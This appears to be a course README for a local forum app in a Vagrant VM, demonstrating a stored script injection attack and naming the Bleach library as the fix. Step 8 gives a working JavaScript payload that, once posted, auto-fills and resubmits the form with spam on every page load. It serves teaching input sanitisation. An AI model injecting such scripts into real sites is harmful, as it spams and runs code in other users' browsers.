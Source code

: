 #Example of Script Injection ATTACK code
=============

Common code for the Relational Databases and Full Stack Fundamentals courses



1. Install vagrant and virtual box
2. Change directory to the vagrant directory in git bash for windows
3.Run Vagrant up 
4.  you can run vagrant ssh to log in to your newly installed Linux VM!
5. run python forum.py in the shell.
6. if your port is started on 8000 type http://localhost:8000/
7. Add Some Post in the page.
8. After add few post add the below post into box.  
        <script>
setTimeout(function() {
    var tt = document.getElementById('content');
    tt.value = "<h2 style='color: #FF6699; font-family: Comic Sans MS'>Spam, spam, spam, spam,<br>Wonderful spam, glorious spam!</h2>";
    tt.form.submit();
}, 2500);
</script>
9. Notice the Spam content while retrieve the Message this example of Script Injection Attack. 

Solution to Avoid The Script Injection.
Use of Bleach http://bleach.readthedocs.io/en/latest/ to avoid the script injection attack


